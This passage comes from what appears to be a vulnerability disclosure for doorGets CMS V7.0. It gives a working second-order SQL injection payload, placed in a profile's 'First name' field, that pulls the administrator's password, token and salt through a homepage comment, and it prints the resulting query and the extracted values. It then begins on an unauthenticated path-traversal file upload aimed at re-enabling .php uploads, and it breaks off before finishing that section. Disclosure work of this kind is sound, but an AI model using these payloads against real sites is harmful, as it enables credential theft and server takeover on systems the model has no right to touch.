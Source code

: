 After logging in, visit ```http://domain.com/dg-user/?controller=account``` and modify your own "First name" as
```
,(select concat((select password from _users where id=7),(select token from _users where id=7),(select hex(salt) from _users where id=7))))#```

Then post a comment on the homepage of the website with the following comments:

![36.png](./img/36.png)

The SQL statement executed by the program is:
```
INSERT INTO `_dg_comments` (`uri_module`,`uri_content`,`stars`,`url`,`date_creation`,`validation`,`adress_ip`,`langue`,`email`,`comment`,`nom`) VALUES ("home","1111","0","/ajax/index.php?uri=news&action=sendForm&controller=comment&uri_module=home&lg=en&uri_content=1111&fcbz=1","1551860423","2","127.0.0.1","en","todaro@localhost.com","6677\",",(select concat((select password from _users where id=7),(select token from _users where id=7),(select hex(salt) from _users where id=7))))#");```

Then, the "password", "token", and "salt" values of the administrator obtained by the injection are displayed at the "First name" of the homepage comment content.
```select concat((select password from _users where id=7),(select token from _users where id=7),(select hex(salt) from _users where id=7))```
The injection results are as follows:

![37.png](./img/37.png)

The administrator's "password" is:```
ZDEwYmJjOWVkM2ViNDQwNzBlNmU0ODdhMWY3MzZjNWE2OGFjODEzYTVmYzRhZWZmNmMxMjRlZDBiYjY4M2UyYw==```
The administrator's "token" is:```
7490353fec596334094a185bba3d39ef```
The administrator's "hex(salt)" is:```
3C474D333F552A2D405E412A646642634F3C5B7D584B5B622A394821622F38313636655D50396B514031```
The data obtained by injection is consistent with the direct query in the database:

![38.png](./img/38.png)


**[10]**

In \fileman\php\upload.php, there is no permission verification operation for the user.

![39.png](./img/39.png)

Line 33 calls the verifyPath function to verify $path. The value of $_POST['d'] is required to contain "/fileman/Uploads". Due to the lack of filtering treatment, there is a problem of uploading files across directories.

![40.png](./img/40.png)

Line 41 gets the name of the uploaded file.
Line 45 calls the RoxyFile:: CanUploadFile function:

![41.png](./img/41.png)

Line 140 will determine whether the file is allowed to upload. The content of FORBIDDEN_UPLOADS is from \doorGets_CMS_V7.0\fileman\conf.json, as follows:

![42.png](./img/42.png)

FORBIDDEN_UPLOADS restricts .php file uploads, without restricting the upload of .json files, and limits the ability to overwrite existing files.

Try to delete the \doorGets_CMS_V7.0\fileman\conf.json file and leave the contents of FORBIDDEN_UPLOADS empty. This will enable the upload of .php files, but it will not work. The reasons are as follows:

```